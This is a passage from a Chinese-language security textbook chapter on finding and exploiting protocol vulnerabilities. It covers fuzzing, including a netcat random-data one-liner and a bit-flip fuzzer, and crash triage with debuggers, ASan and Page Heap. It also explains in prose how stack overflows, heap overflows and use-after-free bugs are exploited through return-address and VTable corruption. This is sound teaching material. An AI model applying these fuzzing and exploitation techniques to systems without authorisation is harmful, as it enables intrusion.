## **10**

**寻找和利用安全漏洞**

解析复杂网络协议的结构可能是棘手的，特别是当协议解析器是用内存不安全的编程语言（如 C/C++）编写时。任何错误都可能导致严重漏洞，而协议的复杂性使得分析这些漏洞变得困难。捕捉到所有进出协议数据与处理它的应用程序代码之间的可能交互可能是一项不可能完成的任务。

本章探讨了一些通过操控进出应用程序的网络流量来识别协议中安全漏洞的方法。我将介绍模糊测试和调试等技术，这些技术可以自动化发现安全问题的过程。我还会提供一个快速入门指南，介绍如何通过快速定位崩溃问题来确定其根本原因及其可利用性。最后，我将讨论常见安全漏洞的利用、现代平台为缓解漏洞利用所做的努力，以及如何绕过这些漏洞缓解措施。

### **模糊测试**

任何软件开发人员都知道，测试代码对于确保软件正确运行至关重要。尤其是涉及到安全性时，测试显得尤为重要。漏洞存在于软件应用的行为偏离其原始意图的地方。理论上，良好的测试集可以确保这种情况不会发生。然而，在处理网络协议时，通常无法访问任何应用程序的测试，尤其是专有应用程序。幸运的是，你可以创建自己的测试。

*模糊测试*，通常被称为 *fuzzing*，是一种向网络协议中输入随机（有时并非完全随机）数据的技术，目的是强制处理应用程序崩溃，从而识别漏洞。这项技术无论网络复杂性如何，都能得到结果。模糊测试涉及生成多个测试用例，实质上是修改过的网络协议结构，这些测试用例随后被发送到应用程序进行处理。这些测试用例可以通过随机修改或在分析师的指导下自动生成。

#### ***最简单的模糊测试***

为特定协议开发一套模糊测试并不一定是复杂的任务。在最简单的情况下，模糊测试只需向网络端点发送随机垃圾数据，然后观察发生了什么。

在这个例子中，我们将使用 Unix 风格的系统和 Netcat 工具。在 shell 中执行以下命令，得到一个简单的模糊测试工具：

```
$ cat /dev/urandom | nc hostname port
```

这条一行的 shell 命令使用 `cat` 命令从系统的随机数生成设备读取数据。生成的随机数据被传送到 `netcat`，后者根据指示打开与指定端点的连接。

这个简单的模糊器可能仅会在要求较少的简单协议中引发崩溃。简单的随机生成不太可能创建符合更复杂协议要求的数据，比如有效的校验和或魔法值。不过，你会惊讶于一个简单的模糊测试竟然能给你带来有价值的结果；因为它非常快速，所以你不妨试试。只是千万不要在管理核反应堆的实时工业控制系统上使用这个模糊器！

#### ***变异模糊器***

通常，你需要更有选择性地决定发送给网络连接的数据，以获得最有用的信息。在这种情况下，最简单的技术是使用现有的协议数据，对其进行某种变异，然后将其发送到接收应用程序。这个变异模糊器可能会出奇地有效。

让我们从最简单的变异模糊器开始：一个随机比特翻转器。清单 10-1 展示了这种类型的模糊器的基本实现。

```
void SimpleFuzzer(const char* data, size_t length) {
   size_t position = RandomInt(length);
   size_t bit = RandomInt(8);

   char* copy = CopyData(data, length);
   copy[position] ^= (1 << bit);
   SendData(copy, length);
}
```

*清单 10-1：一个简单的随机比特翻转变异模糊器*

`SimpleFuzzer()`函数接受需要模糊处理的数据和数据的长度，然后生成一个介于 0 和数据长度之间的随机数，作为要修改的数据字节。接下来，它通过生成一个介于 0 和 7 之间的数字来决定要更改字节中的哪个比特位。然后，它使用异或（XOR）操作翻转该比特，并将变异后的数据发送到其网络目的地。

当模糊器随机地修改协议中的某个字段，而该字段随后被应用程序错误使用时，这个函数就能发挥作用。例如，模糊器可能会通过将一个长度字段从 0x40 改为 0x80000040 来修改长度字段。如果应用程序将该值乘以 4（例如，用于一个 32 位值的数组），这可能导致整数溢出。这个修改还可能导致数据格式错误，从而使解析代码混乱并引入其他类型的漏洞，比如无效的命令标识符，导致解析器访问内存中的错误位置。

你可以在数据中一次改变多个比特位。然而，通过单比特变异，你更有可能将变异的影响局限在应用程序代码的类似区域。改变一个完整的字节可能会导致许多不同的效果，特别是当该值用于一组标志时。

在数据被模糊处理之后，你还需要重新计算任何校验和或关键字段，例如总长度值。否则，数据解析可能会在验证步骤中失败，甚至还没到达处理变异值的应用程序代码区域。

#### ***生成测试用例***

在进行更复杂的模糊测试时，你需要更聪明地修改并理解协议，以便针对特定的数据类型进行测试。传入应用程序进行解析的数据越多，应用程序的复杂性就越高。在许多情况下，协议值的边缘情况（如长度值）检查不足；如果我们已经知道协议的结构，就可以从头开始生成自己的测试用例。

生成自己的测试用例使我们能够精确控制所使用的协议字段及其大小。然而，测试用例的开发更为复杂，需要仔细思考你想生成的类型。生成测试用例允许你测试那些在捕获流量并进行变异时可能永远不会使用的协议值类型。但它的优点是，你将运行更多应用程序的代码，并访问那些可能测试较少的代码区域。

### **漏洞分类**

在你对一个网络协议运行模糊测试并且处理该协议的应用程序崩溃后，你几乎可以确定找到了一个 bug。下一步是确定这个 bug 是否是一个漏洞，并且它可能是哪种类型的漏洞，这取决于应用程序崩溃的方式和原因。为了进行这种分析，我们使用*漏洞分类*：采取一系列步骤，寻找崩溃的根本原因。有时，bug 的原因非常清晰，容易追踪；有时，漏洞会在几秒钟内，甚至在几小时后，导致应用程序损坏。本节将描述如何分类漏洞，并增加你找到特定崩溃根本原因的机会。

#### ***调试应用程序***

不同平台对漏洞分类的控制程度不同。对于在 Windows、macOS 或 Linux 上运行的应用程序，你可以将调试器附加到进程上。但在嵌入式系统中，你可能只能依赖系统日志中的崩溃报告。对于调试，我在 Windows 上使用 CDB，在 Linux 上使用 GDB，在 macOS 上使用 LLDB。所有这些调试器都可以通过命令行使用，我将提供一些调试进程时最有用的命令。

##### **开始调试**

要开始调试，首先需要将调试器附加到你要调试的应用程序。你可以从命令行直接在调试器下运行应用程序，或者基于进程 ID 将调试器附加到一个已经在运行的进程上。表 10-1 显示了运行三种调试器所需的各种命令。

**表 10-1：** 在 Windows、Linux 和 macOS 上运行调试器的命令

| **调试器** | **新进程** | **附加进程** |
| --- | --- | --- |
| CDB | `cdb application.exe [arguments]` | `cdb -p PID` |
| GDB | `gdb --args application [arguments]` | `gdb -p PID` |
| LLDB | `lldb -- application [arguments]` | `lldb -p -PID` |

因为调试器会在你创建或附加调试器后暂停进程的执行，所以你需要重新运行进程。你可以在调试器的命令行中发出表 10-2 中的命令来启动进程执行，或者在附加时恢复执行。该表提供了一些简化的命令名称，适用时使用逗号分隔。

**表 10-2：** 简化的应用程序执行命令

| **调试器** | **启动执行** | **恢复执行** |
| --- | --- | --- |
| CDB | `g` | `g` |
| GDB | `run, r` | `continue, c` |
| LLDB | `process launch, run, r` | `thread continue, c` |

当一个新进程创建一个子进程时，崩溃的可能是子进程，而不是你正在调试的进程。这在类 Unix 平台上尤其常见，因为一些网络服务器会通过创建当前进程的副本来处理新连接，即通过 fork 当前进程。在这种情况下，你需要确保可以跟踪子进程，而不是父进程。你可以使用表 10-3 中的命令来调试子进程。

**表 10-3：** 调试子进程

| **调试器** | **启用子进程调试** | **禁用子进程调试** |
| --- | --- | --- |
| CDB | `.childdbg 1` | `.childdbg 0` |
| GDB | `set follow-fork-mode child` | `set follow-fork-mode parent` |
| LLDB | `process attach --name NAME` --waitfor | `exit debugger` |

使用这些命令时有一些注意事项。在使用 CDB 的 Windows 上，你可以通过一个调试器调试所有进程。然而，使用 GDB 时，将调试器设置为跟踪子进程将停止对父进程的调试。在 Linux 上，你可以通过使用`set detach-on-fork off`命令来稍微解决这个问题。该命令在继续调试子进程的同时挂起父进程的调试，并在子进程退出后重新附加到父进程。然而，如果子进程运行时间较长，父进程可能永远无法接受新的连接。

LLDB 没有跟踪子进程的选项。相反，你需要启动一个新的 LLDB 实例，并使用表 10-3 中显示的附加语法，通过进程名称自动附加到新进程上。你应该将`process` LLDB 命令中的`NAME`替换为你要跟踪的进程名称。

##### **分析崩溃**

调试后，你可以在进行模糊测试时运行应用程序，并等待程序崩溃。你应该寻找那些表明内存损坏的崩溃——例如，在尝试读取或写入无效地址时发生的崩溃，或者在尝试执行无效地址上的代码时发生的崩溃。当你识别出合适的崩溃时，检查应用程序的状态，找出崩溃的原因，如内存损坏或数组索引错误。

首先，通过命令窗口中的输出确定发生的崩溃类型。例如，Windows 上的 CDB 通常会打印出崩溃类型，类似于 `Access violation`，调试器会尝试打印出应用程序崩溃时当前位置的指令。在类 Unix 系统上的 GDB 和 LLDB，你将看到信号类型：最常见的类型是 `SIGSEGV`，表示段错误，指示应用程序尝试访问无效的内存位置。

举个例子，清单 10-2 展示了如果应用程序尝试执行无效内存地址时，CDB 会显示的内容。

```
(2228.1b44): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
00000000`41414141 ??              ???
```

*清单 10-2：CDB 中的崩溃示例，显示无效内存地址*

确定了崩溃类型后，下一步是确定哪个指令导致了应用程序崩溃，这样你就知道需要查看进程状态中的哪些部分。请注意，在清单 10-2 中，调试器尝试打印崩溃发生时的指令，但由于内存位置无效，它返回了一系列问号。当崩溃是由于读取或写入无效内存时，你会看到完整的指令，而不是问号。如果调试器显示你正在执行有效的指令，你可以使用表 10-4 中的命令反汇编崩溃位置周围的指令。

**表 10-4：** 指令反汇编命令

| **调试器** | **从崩溃位置反汇编** | **反汇编特定位置** |
| --- | --- | --- |
| CDB | `u` | `u ADDR` |
| GDB | `disassemble` | `disassemble ADDR` |
| LLDB | `disassemble –frame` | `disassemble --start-address ADDR` |

要显示崩溃时的处理器寄存器状态，你可以使用表 10-5 中的命令。

**表 10-5：** 显示和设置处理器寄存器状态

| **调试器** | **显示通用寄存器** | **显示特定寄存器** | **设置特定寄存器** |
| --- | --- | --- | --- |
| CDB | `r` | `r @rcx` | `r @rcx = NEWVALUE` |
| GDB | `info registers` | `info registers rcx` | `set $rcx = NEWVALUE` |
| LLDB | `register read` | `register read rcx` | `register write rcx NEWVALUE` |

你还可以使用这些命令设置寄存器的值，这样可以通过修复即时崩溃并重新启动执行来保持应用程序运行。例如，如果崩溃是因为 RCX 的值指向无效的引用内存，那么可以将 RCX 重置为有效的内存位置并继续执行。然而，如果应用程序已经损坏，这种继续执行可能不会成功维持太长时间。

需要注意的一个重要细节是寄存器的指定方式。在 CDB 中，你使用语法`@``NAME`来在表达式中指定一个寄存器（例如，在构建内存地址时）。而在 GDB 和 LLDB 中，通常使用`$``NAME`来指定寄存器。GDB 和 LLDB 还具有几个伪寄存器：`$pc`，它指代当前执行指令的内存位置（对于 x64 来说对应 RIP），以及`$sp`，它指代当前的栈指针。

当你调试的应用程序崩溃时，你会希望显示当前函数是如何被调用的，因为这为确定是哪个部分的应用程序触发了崩溃提供了重要的上下文。通过这些上下文，你可以缩小需要关注的协议部分，以便重现崩溃。

你可以通过生成堆栈跟踪来获取此上下文，堆栈跟踪显示了在执行易受攻击函数之前被调用的函数，包括在某些情况下传递给这些函数的局部变量和参数。表 10-6 列出了创建堆栈跟踪的命令。

**表 10-6：** 创建堆栈跟踪

| **调试器** | **显示堆栈跟踪** | **显示带参数的堆栈跟踪** |
| --- | --- | --- |
| CDB | `K` | `Kb` |
| GDB | `backtrace` | `backtrace full` |
| LLDB | `backtrace` |  |

你还可以检查内存位置以确定当前指令崩溃的原因；使用表 10-7 中的命令。

**表 10-7：** 显示内存值

| **调试器** | **显示字节/字/双字/四字** | **显示十个 1 字节的值** |
| --- | --- | --- |
| CDB | `db, dw, dd, dq ADDR` | `db ADDR` L10 |
| GDB | `x/b, x/h, x/w, x/g ADDR` | `x/10b ADDR` |
| LLDB | `memory read --size 1,2,4,8` | `memory read --size 1 --count 10` |

每个调试器都允许你控制如何显示内存中的值，例如读取内存的大小（如从 1 字节到 4 字节）以及要打印的数据量。

另一个有用的命令是确定一个地址对应的内存类型，例如堆内存、栈内存或映射的可执行文件。了解内存类型有助于缩小漏洞的类型。例如，如果发生了内存值损坏，你可以区分是栈内存损坏还是堆内存损坏。你可以使用表 10-8 中的命令来确定进程内存的布局，然后查找一个地址对应的内存类型。

**表 10-8：** 显示进程内存映射的命令

| **调试器** | **显示进程内存映射** |
| --- | --- |
| CDB | `!address` |
| GDB | `info proc mappings` |
| LLDB | 没有直接对应的命令 |

当然，调试器还有更多的功能可能在你进行故障诊断时需要使用，但本节提供的命令应该涵盖了崩溃诊断的基础知识。

##### **示例崩溃**

现在让我们来看一些崩溃的例子，以便你了解不同类型的漏洞所引起的崩溃是什么样的。我将展示在 GDB 中的 Linux 崩溃，但你在不同平台和调试器上看到的崩溃信息应该是相似的。列表 10-3 展示了一个典型的栈缓冲区溢出引起的崩溃示例。

```
   GNU gdb 7.7.1
   (gdb) r
   Starting program: /home/user/triage/stack_overflow

   Program received signal SIGSEGV, Segmentation fault.
➊ 0x41414141 in ?? ()

➋ (gdb) x/i $pc
   => 0x41414141:  Cannot access memory at address 0x41414141
➌ (gdb) x/16xw $sp-16
   0xbffff620:     0x41414141      0x41414141      0x41414141      0x41414141
   0xbffff630:     0x41414141      0x41414141      0x41414141      0x41414141
   0xbffff640:     0x41414141      0x41414141      0x41414141      0x41414141
   0xbffff650:     0x41414141      0x41414141      0x41414141      0x41414141
```

*列表 10-3：来自栈缓冲区溢出的示例崩溃*

输入数据是一系列重复的*A*字符，在这里显示为十六进制值 0x41。 在 ➊ 处，程序在尝试执行内存地址 0x41414141 时崩溃。地址包含重复的输入数据副本，这是内存损坏的一个标志，因为内存值应该反映当前的执行状态（如指向栈或堆的指针），并且不太可能是相同值的重复。我们再次检查崩溃的原因是否是因为在 0x41414141 处没有可执行代码，通过请求 GDB 反汇编程序崩溃位置的指令 ➋，GDB 表示它无法访问该位置的内存。崩溃并不一定意味着发生了栈溢出，所以为了确认我们在 ➌ 处转储当前栈位置。此时通过将栈指针向后移动 16 字节，我们可以看到我们的输入数据已经彻底破坏了栈。

这个崩溃的问题在于，很难确定哪个部分是脆弱的代码。我们通过调用一个无效的位置导致了崩溃，这意味着执行返回指令的函数不再被直接引用，栈被破坏，使得提取调用信息变得困难。在这种情况下，你可以查看栈破坏下方的内存，寻找由脆弱函数在栈上留下的返回地址，这可以用来追踪罪魁祸首。列表 10-4 展示了一个由堆缓冲区溢出引起的崩溃，堆缓冲区溢出比栈内存破坏更加复杂。

```
   user@debian:~/triage$ gdb ./heap_overflow
   GNU gdb 7.7.1

   (gdb) r
   Starting program: /home/user/triage/heap_overflow

   Program received signal SIGSEGV, Segmentation fault.
   0x0804862b in main ()
➊ (gdb) x/i $pc
   => 0x804862b <main+112>:        mov    (%eax),%eax

➋ (gdb) info registers $eax
   eax            0x41414141       1094795585

   (gdb) x/5i $pc
   => 0x804862b <main+112>:        mov    (%eax),%eax
      0x804862d <main+114>:        sub    $0xc,%esp
      0x8048630 <main+117>:        pushl  -0x10(%ebp)
    ➌ 0x8048633 <main+120>:        call   *%eax
      0x8048635 <main+122>:        add    $0x10,%esp
 (gdb) disassemble
   Dump of assembler code for function main:
      ...
    ➍ 0x08048626 <+107>:   mov    -0x10(%ebp),%eax
      0x08048629 <+110>:   mov    (%eax),%eax
   => 0x0804862b <+112>:   mov    (%eax),%eax
      0x0804862d <+114>:   sub    $0xc,%esp
      0x08048630 <+117>:   pushl  -0x10(%ebp)
      0x08048633 <+120>:   call   *%eax

   (gdb) x/w $ebp-0x10
   0xbffff708:     0x0804a030

➎ (gdb) x/4w 0x0804a030
   0x804a030:      0x41414141      0x41414141      0x41414141      0x41414141

   (gdb) info proc mappings
   process 4578
   Mapped address spaces:

       Start Addr    End Addr       Size  Offset  objfile
        0x8048000   0x8049000     0x1000     0x0  /home/user/triage/heap_overflow
        0x8049000   0x804a000     0x1000     0x0  /home/user/triage/heap_overflow
      ➏ 0x804a000   0x806b000    0x21000     0x0  [heap]
       0xb7cce000  0xb7cd0000     0x2000     0x0
       0xb7cd0000  0xb7e77000   0x1a7000     0x0  /lib/libc-2.19.so
```

*列表 10-4：来自堆缓冲区溢出的示例崩溃*

我们再次遇到崩溃，但这次发生在一个有效的指令上，该指令将值从`EAX`指向的内存位置复制回`EAX` ➊。崩溃很可能是因为`EAX`指向了无效的内存。打印寄存器 ➋ 显示`EAX`的值正是我们溢出的字符重复，这表明发生了内存损坏。

我们进一步反汇编，发现`EAX`的值被用作一个函数的内存地址，该函数将在 ➌ 的指令中被调用。从另一个值解引用一个值表明，正在执行的代码是从*虚拟函数表（VTable）*进行虚拟函数查找。我们通过反汇编崩溃指令之前的几条指令 ➍ 来确认这一点。我们看到一个值从内存中读取，然后该值被解引用（这将是读取 VTable 指针），最后再次被解引用，导致了崩溃。

尽管分析表明崩溃发生在解引用 VTable 指针时并不能立即验证堆对象的损坏，但它是一个很好的指示器。为了验证堆内存的损坏，我们从内存中提取值，并检查它是否被 0x41414141 模式损坏，这是我们在测试期间的输入值 ➎。最后，为了检查内存是否位于堆中，我们使用 `info proc mappings` 命令来转储进程内存映射；从中我们可以看到，我们为 ➍ 提取的值 0x0804a030 位于堆区域 ➏ 中。通过将内存地址与映射相关联，可以确认内存损坏仅限于此堆区域。

发现堆内存的损坏并不一定指向漏洞的根本原因，但我们至少可以从栈中找到信息，确定哪些函数被调用以到达此点。知道调用了哪些函数可以缩小你需要逆向工程的函数范围，从而找出罪魁祸首。

#### ***提高找到崩溃根本原因的机会***

跟踪崩溃的根本原因可能是困难的。如果栈内存已损坏，你就会失去崩溃时调用的函数的信息。对于其他类型的漏洞，比如堆缓冲区溢出或使用后释放（use-after-free），崩溃可能永远不会发生在漏洞的位置。也有可能损坏的内存被设置为一个值，这个值不会导致应用程序崩溃，从而导致应用程序行为发生变化，而这些变化通过调试器难以观察到。

理想情况下，你希望提高识别应用程序中确切易受攻击点的机会，同时不需要付出过多的努力。我将介绍几种提高缩小易受攻击点范围的方式。

##### **使用 Address Sanitizer 重建应用程序**

如果你正在 Unix 类操作系统上测试一个应用程序，那么你有合理的机会获得该应用程序的源代码。仅此一点就为你提供了许多优势，例如完整的调试信息，但它也意味着你可以重建该应用程序并添加改进的内存错误检测，从而提高发现漏洞的机会。

在重建过程中添加这种增强功能的最佳工具之一是 Address Sanitizer（ASan），这是一个用于 CLANG C 编译器的扩展，用于检测内存损坏的 bug。如果在运行编译器时指定 `-fsanitize=address` 选项（通常可以通过 `CFLAGS` 环境变量指定此选项），重建后的应用程序将具备额外的检测功能，用于检测常见的内存错误，如内存损坏、越界写入、使用后释放（use-after-free）和双重释放（double-free）。

ASan 的主要优点是，它会在易受攻击的条件发生后尽快停止应用程序。如果堆分配发生溢出，ASan 会停止程序并将漏洞的详细信息打印到 shell 控制台。例如，清单 10-5 展示了一个简单堆溢出的输出部分。

```
==3998==ERROR: AddressSanitizer: heap-buffer-overflow➊ on address
0xb6102bf4➋ at pc 0x081087ae➌ bp 0xbf9c64d8 sp 0xbf9c64d0
WRITE of size 1➍ at 0xb6102bf4 thread T0
 #0 0x81087ad (/home/user/triage/heap_overflow+0x81087ad)
    #1 0xb74cba62 (/lib/i386-linux-gnu/i686/cmov/libc.so.6+0x19a62)
    #2 0x8108430 (/home/user/triage/heap_overflow +0x8108430)
```

*清单 10-5：ASan 输出，堆缓冲区溢出*

请注意，输出中包含了遇到的错误类型➊（在此案例中为堆溢出）、溢出写入的内存地址➋、导致溢出的应用程序位置➌，以及溢出大小 ➍。通过使用调试器和提供的信息，如前一节所示，您应该能够追踪到漏洞的根本原因。

然而，请注意，应用程序中的位置只是内存地址。源代码文件和行号会更有用。为了在堆栈跟踪中获取这些信息，我们需要指定一些环境变量来启用符号化，如清单 10-6 所示。应用程序还需要使用调试信息进行构建，我们可以通过将编译器标志 `–g` 传递给 CLANG 来实现。

```
$ export ASAN_OPTIONS=symbolize=1
$ export ASAN_SYMBOLIZER_PATH=/usr/bin/llvm-symbolizer-3.5
$ ./heap_overflow
=================================================================
==4035==ERROR: AddressSanitizer: heap-buffer-overflow on address 0xb6202bf4 at pc 0x081087ae bp 0xbf97a418 sp 0xbf97a410
WRITE of size 1 at 0xb6202bf4 thread T0
    #0 0x81087ad in main /home/user/triage/heap_overflow.c:8:3➊
    #1 0xb75a4a62 in __libc_start_main /build/libc-start.c:287
    #2 0x8108430 in _start (/home/user/triage/heap_overflow+0x8108430)
```

*清单 10-6：ASan 输出，包含符号信息的堆缓冲区溢出*

清单 10-6 的大部分内容与清单 10-5 相同。主要区别在于崩溃的位置➊现在反映的是原始源代码中的位置（在此案例中，从文件*heap_overflow.c*中的第 8 行，第 3 个字符开始），而不是程序内的内存地址。将崩溃位置缩小到程序中的特定行，能更容易地检查易受攻击的代码并确定崩溃的原因。

##### **Windows 调试和页面堆**

在 Windows 上，访问正在测试的应用程序的源代码可能会受到更多限制。因此，您需要提高对现有二进制文件的跟踪可能性。Windows 附带了页面堆功能，您可以启用它来提高追踪内存损坏的机会。

您需要手动为要调试的进程启用页面堆，可以通过以管理员身份运行以下命令来完成：

```
C:\> gflags.exe -i appname.exe +hpa
```

`gflags` 应用程序与 CDB 调试器一起安装。`–i` 参数允许您指定图像文件名以启用页面堆。将 `appname.exe` 替换为您正在测试的应用程序的名称。`+hpa` 参数在应用程序下次执行时实际启用页面堆。

Page Heap 的工作原理是在每次堆分配后分配特殊的、操作系统定义的内存页面（称为*保护页*）。如果应用程序尝试读取或写入这些特殊的保护页，将会触发错误，并立即通知调试器，这有助于检测堆缓冲区溢出。如果溢出立即写入缓冲区的末尾，保护页将会被应用程序触及，错误会立刻被触发。图 10-1 展示了这个过程如何在实践中工作。



*图 10-1：Page Heap 检测溢出*

你可能会认为使用 Page Heap 是防止堆内存破坏的一种好方法，但 Page Heap 会浪费大量内存，因为每次分配都需要一个独立的保护页。设置保护页需要调用系统调用，这会降低分配性能。总体而言，除了调试会话，启用 Page Heap 并不是一个好主意。

### **利用常见漏洞**

在研究和分析一个网络协议后，你对它进行了模糊测试，并发现了一些你想要利用的漏洞。第九章描述了许多类型的安全漏洞，但没有介绍如何利用这些漏洞，这是我在这里要讨论的内容。我将从如何利用内存破坏漏洞开始，然后讨论一些更为特殊的漏洞类型。

漏洞利用的目标取决于你的协议分析目的。如果分析的是商业产品，你可能希望找到一个概念验证，明确展示问题，以便厂商修复：在这种情况下，可靠性不如清晰地展示漏洞本身重要。另一方面，如果你正在开发一个用于红队演习的漏洞利用，任务是攻破某些基础设施，你可能需要一个可靠的漏洞利用，它能够在许多不同版本的产品上运行，并执行攻击的下一阶段。

提前明确你的利用目标，确保你不会在无关的任务上浪费时间。不论你的目标是什么，本节将为你提供一个关于该主题的良好概述，并为你具体需求提供更深入的参考资料。我们从利用内存破坏漏洞开始。

#### ***利用内存破坏漏洞***

内存破坏，如栈溢出和堆溢出，在使用不安全内存语言（如 C/C++）编写的应用程序中非常常见。在这些编程语言中编写复杂的应用程序，几乎不可能不引入至少一个内存破坏漏洞。这些漏洞非常普遍，以至于你很容易找到关于如何利用它们的信息。

一个利用程序需要触发内存损坏漏洞，以使程序的状态改变，执行任意代码。这可能涉及劫持处理器的执行状态，并将其重定向到利用程序提供的可执行代码。也可能意味着以某种方式修改应用程序的运行状态，使以前无法访问的功能变得可用。

利用程序的开发取决于损坏类型、损坏影响到应用程序运行的哪些部分，以及应用程序使用的防止利用的缓解措施，这些措施使得成功利用漏洞变得更加困难。首先，我会讲解利用的基本原理，然后考虑更复杂的场景。

##### **栈缓冲区溢出**

回想一下，当代码低估了要复制到栈上某个位置的缓冲区的长度时，就会发生栈缓冲区溢出，导致溢出并破坏栈上其他数据。最严重的是，在许多架构上，函数的返回地址存储在栈上，破坏该返回地址会让用户直接控制执行，进而可以执行任何想要的代码。利用栈缓冲区溢出的最常见技术之一是破坏栈上的返回地址，使其指向一个包含 shell 代码的缓冲区，当你获得控制权时，可以执行这些指令。以这种方式成功破坏栈会导致应用程序执行其未预期的代码。

在理想的栈溢出中，你可以完全控制溢出的内容和长度，确保你完全控制在栈上覆盖的值。图 10-2 展示了理想栈溢出漏洞的运作。



*图 10-2：一个简单的栈溢出利用示例*

我们将要溢出的栈缓冲区位于函数的返回地址下方 ➊。当溢出发生时，易受攻击的代码填充缓冲区，并用值 0x12345678 ➋覆盖返回地址。易受攻击的函数完成工作并尝试返回调用者，但调用地址已被替换为一个指向由利用代码放置的某些 shell 代码内存位置的任意值 ➌。返回指令执行，利用代码获得了对代码执行的控制。

在理想情况下，编写栈缓冲区溢出利用程序相对简单：你只需要将数据构造到溢出的缓冲区中，确保返回地址指向你控制的内存区域。在某些情况下，你甚至可以将 shell 代码添加到溢出的末尾，并设置返回地址跳转到栈上。当然，为了跳入栈，你需要找到栈的内存地址，这可能是可行的，因为栈不会频繁移动。

然而，你发现的漏洞特性可能会带来问题。例如，如果漏洞是由 C 风格的字符串复制引起的，你将无法在溢出中使用多个 0 字节，因为 C 使用 0 字节作为字符串的终止字符：一旦在输入数据中遇到 0 字节，溢出就会立即停止。一种替代方法是将 Shell 代码定向到没有 0 字节的地址值，例如，强制应用程序执行分配请求的 Shell 代码。

##### **堆缓冲区溢出**

利用堆缓冲区溢出可能比利用栈溢出更为复杂，因为堆缓冲区通常位于不太可预测的内存地址。这意味着你无法保证能像在已知位置找到函数返回地址那样轻松找到可以被轻易破坏的内容。因此，利用堆溢出需要不同的技术，比如控制堆分配和准确地放置有用的、可破坏的对象。

获得堆溢出代码执行控制的最常见技术是利用 C++ 对象的结构，特别是它们使用 VTable 的方式。VTable 是指向对象实现的函数的指针列表。虚拟函数的使用使得开发者能够从现有基类派生新类，并重写部分功能，如图 10-3 所示。



*图 10-3：VTable 实现*

为了支持虚拟函数，每个分配的类实例必须包含指向函数表内存位置的指针 ➊。当在对象上调用虚拟函数时，编译器生成的代码会查找虚拟函数表的地址，然后查找表内的虚拟函数，最后调用该地址 ➋。通常，我们无法破坏表中的指针，因为表很可能存储在只读内存部分。但我们可以破坏指向 VTable 的指针，并利用它来获得代码执行权限，如图 10-4 所示。



*图 10-4：通过 VTable 地址破坏获得代码执行权限*

##### **使用后释放漏洞**

使用后释放漏洞与内存损坏的关系不大，更像是程序状态的破坏。该漏洞发生在一个内存块被释放后，但应用程序的某些部分仍然存储着指向该内存块的指针。在应用程序执行的后续过程中，这个指向已释放内存块的指针被重新使用，可能是因为应用程序代码认为该指针仍然有效。在内存块被释放和块指针被重新使用之间，存在机会将内存块的内容替换为任意值，并利用这一点来获得代码执行权限。

当内存块被释放时，通常会将其返回给堆以供重新利用；因此，只要你能发出与原始分配相同大小的分配请求，就有很大可能性释放的内存块会被重新使用，并包含你精心构造的内容。我们可以利用使用后释放漏洞，使用类似于堆溢出中滥用 VTables 的技术，如图 10-5 所示。

应用程序首先在堆上分配一个对象*p* ➊，该对象包含我们希望控制的 VTable 指针。接下来，应用程序调用 delete 来释放关联的内存 ➋。然而，应用程序并没有重置*p*的值，因此该对象可以在未来被重新利用。



*图 10-5：使用后释放漏洞的示例*

尽管图中显示为已释放内存，但第一次分配的原始值可能实际上并没有被清除。这使得追踪使用后释放漏洞的根本原因变得困难。原因是，即使内存不再分配，程序可能仍然正常工作，因为内容没有发生变化。

最后，利用程序分配了适当大小的内存，并控制了*p*指向的内存内容，堆分配器将其重新用于*p* ➌。如果应用程序重新使用*p*调用虚拟函数，我们可以控制查找过程并获得直接的代码执行权限。

##### **操控堆布局**

